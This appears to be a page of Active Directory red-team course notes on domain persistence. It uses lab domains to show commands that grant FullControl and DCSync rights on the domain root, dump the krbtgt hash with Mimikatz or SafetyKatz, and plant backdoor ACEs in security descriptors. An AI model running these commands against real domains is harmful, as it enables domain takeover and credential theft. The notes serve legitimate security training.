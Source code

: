 #### We do, Changes to Domain Object ACL, which gives 4662 logs with a message (write DACL perform on the object) which will be visible in Security Logs!

* There are even more interesting ACLs which can be abused.
* For example, with DA privileges, the ACL for the domain root can be modified to provide useful rights like FullControl or the ability to run "DCSync".

Add FullControl rights -&#x20;

```
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student1 -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

Using ActiveDirectory Module and RACE -

```
Set-ADACL -SamAccountName studentuser1 -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Right GenericAll -Verbose
```

Add rights for DCSync -

```
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student1 -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

Execute DCSync -

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'

 or
 
 C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```

**BONUS --> dir \\\dcorp-dc\c$ (check command execution on DA)**

### Security Descriptors - using ACLs

* It is possible to modify Security Descriptors (security information like Owner, primary group, DACL and SACL) of multiple remote access methods (securable objects) to allow access to non-admin users.
* Administrative privileges are required for this.
* **It works as a very useful and impactful backdoor mechanism.**

**Security Descriptor Definition Language (SDDL)** defines the format which is used to describe a security descriptor. **SDDL** uses ACE strings for DACL and SACL -

```
ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid
```

**ALL WE NEED TO CHANGE ABOVE IS THE account\_sid WITH THE USER THAT WE CONTROL.**
